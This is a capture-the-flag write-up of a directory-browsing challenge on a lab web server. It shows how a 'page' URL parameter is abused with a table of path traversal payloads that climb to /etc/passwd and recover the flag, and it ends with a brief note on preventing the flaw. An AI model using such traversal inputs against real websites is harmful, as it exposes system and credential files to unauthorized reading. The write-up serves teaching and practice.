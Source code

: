 # <span style="text-decoration: underline"> Directory browsing </span>

- Tags : `url` , `directory` , `browsing` , `path` , `etc/passwd` , `guess`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : orange">Medium</span>

___

# <span style="text-decoration: underline">problem</span>

When we go to the `signin` page we go to the **http://192.168.1.23/?page=signin** page. We can see that this url takes a parameter called `page` and the value us `signin`. When we go to the `Survey` page we can see **http://192.168.1.23/?page=survey** and again the parameter `page` and the value this time is `survey`. We can see that the value represent the page that we want to be served.

When we change the value to somethig else, for exemple to `asdasd`, we get an alert saying **`wtf ?`**. Hmm... In this particular web application it is not apparent what is happening but it seems like a middle man is serving us whatever we ask it to serv. We can find this kind of challenge in many [**ctf**](https://ctftime.org/) challenges.

When we ask it to serve `../` (parent directory) it once again shows an alert saying **`Wtf ?`**. When we ask it to serve us `../../`, it gives us an allert saying **`Wrong..`**. The answere changed. It seems like we are accessing to the parent directory, or at least it is simulating that. 

# <span style="text-decoration: underline">Solution</span>

Let's try some more parent directory and try to get the `passwd` file.

> We are trying to get the `passwd` file because generally in `CTF` challenges we try to get this kind of files and we can always expect it to be there. In real life we would rather try to get other importent informations.

|Directory| Alert message|
|--|--|
|../etc/passwd| Wtf ?|
|../../etc/passwd| Wrong..|
|../../../etc/passwd| Nope..|
|../../../../etc/passwd|Almost. |
|../../../../../etc/passwd| Still nope.. |
|../../../../../../etc/passwd|Nope.. |
|../../../../../../../etc/passwd|Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0  |


# <span style="text-decoration: underline">How to avoid the problem</span>

This was once a real problem that destroyed many websites. It is extremely importent to restrict access of the web folder. In modern days this problem is easily avoided by putting the servers in containers but in case where we read files from our computer we should **never** go out of the dedicated directory.

# <span style="text-decoration: underline">Flag</span>

```text
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```
